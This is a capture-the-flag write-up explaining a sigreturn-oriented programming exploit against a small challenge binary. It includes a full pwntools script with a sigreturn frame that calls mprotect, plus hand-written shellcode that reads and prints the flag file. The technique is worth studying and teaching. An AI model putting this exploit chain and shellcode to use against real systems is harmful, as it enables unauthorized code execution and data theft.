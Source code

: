 # ROPuzzle V3
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-400-orange)

## Description
```
placeholder - problem hidden
```

## Solution
The binary is very small. We have a buffer overflow, but no gadgets and no libc to jump to.

Actually, we do have a `syscall` gadget available. This can let us do a `sigreturn` syscall, giving us complete code execution - as long as we can set `rax` to 15, the syscall number for sigreturn. However, this doesn't seem possible, since there are no rax gadgets. Luckily, it is, because rax is not cleared after syscalls. And the read syscall returns the number of bytes read, in rax. So if we only get the program to read in 15 bytes, then rax will be set up properly.

However, 15 bytes is too little to do anything with. We can overcome this by reading in our full input, returning back to the start of the get_input function, reading 15 bytes, returning to the syscall gadget, giving us a sigreturn. Success!!

This is wonderful and all, but we still need to be able to either get a shell or print the flag after the sigreturn. Trying to get a shell won't work in Alpine linux (the distro used in the challenge), so our only option is to print the flag, which will require us to enter shellcode, which means we need a segment in the program that allows read, write, and execute.

Then, our exploit is:
1. Write return address to start of get_input, write initial sigreturn frame, setting up registers for a `mprotect(0x400000, 0x1000, 7)` call (0x400000 is a safe location), and also moving the stack to somewhere in the 0x400000 range.
2. Write 15 bytes
3. Program returns to syscall and does the sigreturn
4. Sigreturn returns to syscall and performs the mprotect
5. Return to somewhere in the program that will allow us to enter input again
6. Read input into our new stack at 0x400000 and return to our shellcode in there


```py
from pwn import *

context.arch = 'amd64'

if args.LOCAL:
    p = process("./main")
else:
    p = remote("ctf.joshl.ca", 5000)

# Important addresses
input_addr = 0x000000000040100a
syscall = 0x401020

# Payload 1: 8 bytes garbage + return address + garbage + sigreturn frame
pay = b'A'*8 + p64(input_addr) + p64(0)
frame = SigreturnFrame() # mprotect(0x400000, 0x1000, 7)
frame.rax = 10
frame.rdi = 0x400000
frame.rsi = 0x1000
frame.rdx = 7
frame.rsp = 0x400010        # our new stack exists here, because this address
                            # contains the address of main, which we'll need to
                            # return to
frame.rip = syscall

pay += bytes(frame)

p.send(pay)
with open('in', 'wb') as f:
    f.write(pay)

pause()

# At this point, the payload 1 is read, the program jumped back to the start of read_input, and our full payload is on the stack

# Payload 2: 15 bytes, make sure we overwrite the return pointer back to syscall
pay = b'A'*8 + p64(syscall)
pay = pay[:15]

with open('in', 'ab') as f:
    f.write(pay)
p.send(pay)
pause()

# At this point, rax = 15, we return to the syscall, which performs the sigreturn syscall, returning back to the
# sigreturn syscall (controlled by frame.rip), making the mprotect syscall, then returning into the address pointed
# to by frame.rsp (start of main), which calls read_input again - but now the stack is at our special location.

# Payload 3:
# 0x400010: "flag.txt"
# 0x400018: overwriting the return address to go to 0x400020
# 0x400020: our shellcode
# The first and second instructions are important because we need to make sure the first byte after "flag.txt"
# is a null byte, but it contains 0x400020 right now. To fix this, we can just move 0 to 0x400018.
"""
   0:   31 c0                   xor    eax, eax
   2:   89 04 25 18 00 40 00    mov    dword[0x400018], eax
   9:   b8 02 00 00 00          mov    eax, 0x2
   e:   bf 10 00 40 00          mov    edi, 0x400010
  13:   31 f6                   xor    esi, esi
  15:   31 d2                   xor    edx, edx
  17:   0f 05                   syscall                 ; int fd = open("flag.txt", "r", "r")
  19:   89 c7                   mov    edi, eax
  1b:   31 c0                   xor    eax, eax
  1d:   be 00 05 40 00          mov    esi, 0x400500    ; known safe address
  22:   ba 64 00 00 00          mov    edx, 0x64
  27:   0f 05                   syscall                 ; read(fd, 0x400500, 0x64)
  29:   b8 01 00 00 00          mov    eax, 0x1
  2e:   bf 01 00 00 00          mov    edi, 0x1
  33:   be 00 05 40 00          mov    esi, 0x400500
  38:   ba 64 00 00 00          mov    edx, 0x64
  3d:   0f 05                   syscall                 ; write(stdout, 0x400500, 0x64)
"""
pay = b'flag.txt' + p64(0x400020) + b'\x31\xc0\x89\x04\x25\x18\x00\x40\x00\xb8\x02\x00\x00\x00\xbf\x10\x00\x40\x00\x31\xf6\x31\xd2\x0f\x05\x89\xc7\x31\xc0\xbe\x00\x05\x40\x00\xba\x64\x00\x00\x00\x0f\x05\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\xbe\x00\x05\x40\x00\xba\x64\x00\x00\x00\x0f\x05'

with open('in', 'ab') as f:
    f.write(pay)
p.send(pay)
pause()
p.interactive()
```

Flag: `CTF{Best_use_of_srop_i_have_seen_so_far!}`
